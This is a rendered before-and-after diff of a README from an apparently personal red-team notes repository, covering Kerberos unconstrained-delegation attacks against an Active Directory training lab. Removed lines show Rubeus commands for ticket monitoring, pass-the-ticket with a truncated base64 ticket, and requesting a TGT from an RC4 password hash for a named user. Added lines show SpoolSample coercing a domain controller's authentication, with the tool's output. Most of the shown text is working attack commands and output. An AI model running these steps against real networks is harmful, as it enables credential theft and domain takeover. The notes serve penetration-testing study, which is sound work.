

Before and after one commit to Arturo0911/Red-Team-Operations, a Markdown page: Active-Directory/Kerberos-Attacks/README.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Updating and done unconstrained user

````diff
--- a/Active-Directory/Kerberos-Attacks/README.md
+++ b/Active-Directory/Kerberos-Attacks/README.md
@@ -13,42 +13,20 @@ context
 
 ### Vector Attack
 
-```bat
-.\Rubeus.exe monitor /interval:5 /nowrap
 
-# Group enumeration
-
-Import-Module .\PowerView.ps1
-
-Get-DomainGroup -MemberIdentity <user name>
 ```
-
-
-to see the available shares I can use this:
-
-```bat
-net view \\COPUTERNAME
-```
-
-```bat
-.\Rubeus.exe renew /ticket:doIFZjCCBWKgAwIBBaEDAgEWooIEWTCCBFVhggRRMIIETaADAgEFoRUbE0lOTEFORUZSRUlHSFQ
-uTE9DQUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggQDMIID/6ADAgESoQMCAQKiggPxBIID7XBw4BNnnymchVY/H/
-9966JMGtJhKaNLBt21SY3+on4lrOrHo<SNIP> /ptt
-```
-
-
-```bat
-.\Rubeus.exe asktgt /rc4:0fcb586d2aec31967c8a310d1ac2bf50 /user:sarah.lafferty /ptt
-```
-
-
-
 C:\Windows\system32>cd c:\Tools
 
 c:\Tools>powershell
 Windows PowerShell
 Copyright (C) Microsoft Corporation. All rights reserved.
 
+PS C:\Tools> .\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local
+[+] Converted DLL to shellcode
+[+] Executing RDI
+[+] Calling exported function
+TargetServer: \\dc01.inlanefreight.local, CaptureServer: \\sql01.inlanefreight.local
+Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
 PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap
 
    ______        _
@@ -64,12 +42,7 @@ PS C:\Tools> .\Rubeus.exe monitor /interval:5 /nowrap
 [*] Monitoring every 5 seconds for new TGTs
 
 
-[*] 9/2/2024 6:44:33 AM UTC - Found new TGT:
+<snip code>
 
-  User                  :  derek.walker@INLANEFREIGHT.LOCAL
-  StartTime             :  9/2/2024 1:37:30 AM
-  EndTime               :  9/2/2024 11:37:30 AM
-  RenewTill             :  9/9/2024 1:37:30 AM
-  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
-  Base64EncodedTicket   :
+[*] 9/4/2024 2:16:22 PM UTC - Found new TGT:
 
````
Also changed, not shown: other parts of Active-Directory/Kerberos-Attacks/README.md (+207 -37 lines).
